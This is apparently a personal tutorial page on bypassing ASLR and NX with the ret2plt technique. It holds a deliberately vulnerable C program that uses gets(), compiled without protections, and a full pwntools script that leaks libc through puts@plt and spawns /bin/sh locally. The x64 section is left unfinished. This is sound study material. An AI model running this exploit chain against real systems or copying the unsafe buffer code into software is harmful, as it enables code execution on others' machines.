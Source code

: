 ```yaml
---
description: 09/20/2023
cover: https://art.pixilart.com/056b06fa01ec6ec.gif
coverY: 9
---
```


# ☠ Bypassing Address Space Layout Randomization & NX (ret2plt)

This will feature x86 and x64-based exploitation.

## Introduction

**Need a refresher on ASLR?**

{% content-ref url="../memory-protections/address-space-layout-randomization-aslr.md" %}
[address-space-layout-randomization-aslr.md](../memory-protections/address-space-layout-randomization-aslr.md)
{% endcontent-ref %}

<mark style="color:yellow;">Address Space Layout Randomization</mark>, or <mark style="color:yellow;">ASLR</mark> is very similar to PIE.&#x20;

However, it is <mark style="color:yellow;">implemented at the kernel level of the underlying operating system</mark>.

<mark style="color:yellow;">The base address of the string and the functions are going to be randomized with each execution of the binary</mark>.

With <mark style="color:green;">ASLR enabled</mark>, you can visualize this by running `ldd` against your target binary a few times:

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

### How Does ret2plt Work?

Here, we will be taking advantage of the <mark style="color:yellow;">**ret2plt**</mark> technique that <mark style="color:yellow;">involves calling</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts@plt`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">and passing the GOT entry of</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">as a parameter</mark>.

This will cause <mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">to print out its own address in</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`libc`</mark>.

* How cool is that?!

This will allow us to leak the ASLR base. Essentially, we need to craft a payload that leaks the real address of `puts()`.&#x20;

As we learned in [overwriting-global-offset-table-got.md](../overwriting-global-offset-table-got.md "mention"), <mark style="color:yellow;">we know that calling the PLT entry of the function is the same as calling the function itself</mark>. If we point the parameter to the GOT entry, it will print out it's location/address.

This is because C string arguments for functions take pointers of where the string can be found.

Ultimately, pointing it to the GOT entry will print it out.

**NOTE:** <mark style="color:yellow;">It is important to note that ASLR must be</mark> <mark style="color:green;">enabled</mark> <mark style="color:yellow;">and PIE MUST be</mark> <mark style="color:red;">disabled</mark> <mark style="color:yellow;">in order to ensure that ret2plt works correctly</mark>. Also, this will allow you to bypass NX as well.&#x20;

<mark style="color:green;">**Enable**</mark>** ASLR if you have it disabled from previous challenges:**

```
sudo echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

### References

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass" %}

{% embed url="https://sharkmoos.medium.com/binary-exploitation-exploiting-ret2libc-328eefb0421b" %}

## Exploitation (x86)

### Source Code

`vuln-32.c`:

```c
#include <stdio.h>

void vuln() 
{
    puts("Can you reach me?!");

    char buffer[20];
    gets(buffer);
}

int main() 
{
    vuln();

    return 0;
}
```

### Compilation

```
gcc vuln.c -o vuln -no-pie -fno-stack-protector -m32
```

### Enumeration

`checksec`:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

* 32-bit executable
* NX Enabled
* No PIE (<mark style="color:yellow;">important</mark>)
* Remember, ASLR should be enabled

`file`:

{% code overflow="wrap" %}
```
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a0f25810be2712c4f32922a70c705efd5d984665, for GNU/Linux 3.2.0, not stripped
```
{% endcode %}

### Exploit Code

Note: <mark style="color:yellow;">be sure to read the comments embedded in the exploit code to further understand how the exploit is behaving</mark>.

`exploit.py`:

```python
from pwn import *

# Basic pwn template setup
elf = context.binary = ELF('./vuln')
libc = elf.libc
p = process()

# We need a payload that will leak the actual address of puts()
# Remember, calling the PLT entry of the function is the same as calling the function itself
p.recvline()    # Receive the first output

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],    # Main??? This is acting as the return address. However, if we set it to something random, it will leak the libc base and crash but if we were to call main() again, we would simply restart the binary.
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))  # The GOT entry will not be the only thing printed. puts() will be. It will be printed as a null-byte. This means it will keep on printing GOT addresses, but we only care about the first one. So, we will grab the first 4 bytes and utilize u32() to interpret them as a little-endian number.
p.recvlines(2) # This means we will ignore the rest of the values as well as the puts() output from calling main() again.

# Next, we will calculate the libc base and perform a ret2libc attack
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC Base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'], # Call system() from libc
    libc.sym['exit'], # Call exit() from libc to exit gracefully. exit() is not required here, it's just nicer
    next(libc.search(b'/bin/sh\x00')) # Search for the string "/bin/sh" in libc and append it as an argument to system() found in libc.
)

p.sendline(payload) # Send payload
p.interactive() # Obtain interactive shell
```

## Exploitation (x64)

Here, we can utilize a similar methodology, however since we are working with x64, we will need to utilize ROP gadgets to inject our data into the registers.

So, I ran into a bit of an issue here. I need to do a bit more research.&#x20;

I'm not really sure how to ROP when specific gadgets are lacking. The ret2csu technique sounds like it could potentially help us here, but I'm still not sure since most new gcc versions have "killed" this technique as well.

